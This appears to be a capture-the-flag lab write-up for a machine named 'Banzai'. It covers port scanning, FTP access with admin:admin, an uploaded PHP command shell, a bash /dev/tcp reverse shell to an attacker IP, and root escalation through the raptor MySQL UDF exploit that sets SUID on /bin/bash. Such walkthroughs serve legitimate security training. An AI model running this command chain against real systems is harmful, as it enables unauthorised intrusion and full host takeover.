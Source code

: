 # Banzai

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:04 +08
Nmap scan report for 192.168.160.56
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
25/tcp   open   smtp
5432/tcp open   postgresql
8080/tcp open   http-proxy
8295/tcp open   unknown
```

### FTP Weak Creds --> RCE

The FTP service has weak credentials of `admin:admin`:

```
$ ftp 192.168.160.56
Connected to 192.168.160.56.
220 (vsFTPd 3.0.3)
Name (192.168.160.56:kali): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     0            4096 May 26  2020 contactform
drwxr-xr-x    2 1001     0            4096 May 26  2020 css
drwxr-xr-x    3 1001     0            4096 May 26  2020 img
-rw-r--r--    1 1001     0           23364 May 27  2020 index.php
drwxr-xr-x    2 1001     0            4096 May 26  2020 js
drwxr-xr-x   11 1001     0            4096 May 26  2020 lib
```

Within it, there seem to be web application folders. Since `index.php` is present, I placed `cmd.php` shell and tested it with the web service runnign on port 8080 and port 8295:

```
$ curl -G --data-urlencode 'cmd=id' http://192.168.160.56:8295/cmd.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have RCE, and we can easily get a reverse shell.

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.45.191/21 0>&1"' http://192.168.160.56:8295/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (67) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Raptor --> Root

Within the machine, we find that MySQL is listening on port 3306:

```
www-data@banzai:/home/banzai$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      - 
```

When checking which user was running it, I found that it was the `root` user:

{% code overflow="wrap" %}
```
www-data@banzai:/home/banzai$ ps -elf | grep mysql
5 S root       799     1  0  80   0 - 280746 -     00:01 ?        00:00:00 /usr/sbin/mysqld --daemonize --pid-file=/var/run/mysqld/mysqld.pid
```
{% endcode %}

Conveniently, MySQL creds were also present within the machine:

```
www-data@banzai:/var/www$ cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>

www-data@banzai:/var/www$ mysql -u root -pEscalateRaftHubris123
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.7.30    |
+-----------+
1 row in set (0.00 sec)
```

I wanted to use the UDF Raptor exploit, but we first need to find the Plugins directory and whether there are any protections over the files:

```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.01 sec)

mysql> SHOW VARIABLES LIKE 'plugin_dir';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

The above means that it is vulnerable!

{% embed url="https://www.exploit-db.com/exploits/1518" %}

This method exploits the access that the `root` user has over the system using MySQL, which allows for malicious shared objects to be loaded and gives an attacker RCE as `root` using the MySQL instance.&#x20;

First, compile the exploit accordingly on the machine itself:

```bash
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
chmod 777 raptor_udf2.so
```

Then, transfer the shared object to the machine and run the following commands in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
```

Afterwards, we can just execute a command as `root`:

```
mysql> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.00 sec
```

We can then easily get a `root` shell:

![](<../../../.gitbook/assets/image (22) (10).png>)
